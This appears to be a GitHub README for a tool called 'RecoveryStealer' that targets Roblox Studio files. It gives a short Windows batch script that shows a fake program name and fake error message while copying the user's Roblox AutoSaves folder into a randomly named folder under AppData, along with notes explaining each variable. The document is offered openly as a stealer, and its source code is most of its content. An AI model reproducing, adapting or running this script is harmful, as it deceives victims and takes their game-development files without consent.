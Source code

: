 # RecoveryStealer
Roblox Studio Files Recovery Stealer.
## Requirements 
Windows 10 or higher 
### Source
\```batch
@echo off color 0c title %fakename% echo %errorstr% cd %AppData% md AutoSaves%rn% xcopy C:\Users\%user%\Documents\ROBLOX\AutoSaves %AppData%\AutoSaves%rn% timeout /t 2 /nobreak >nul
\```
> fakename: variable which is displays program name.
> errorstr: variable which is displays error string.
> rn: random number.
> user: username
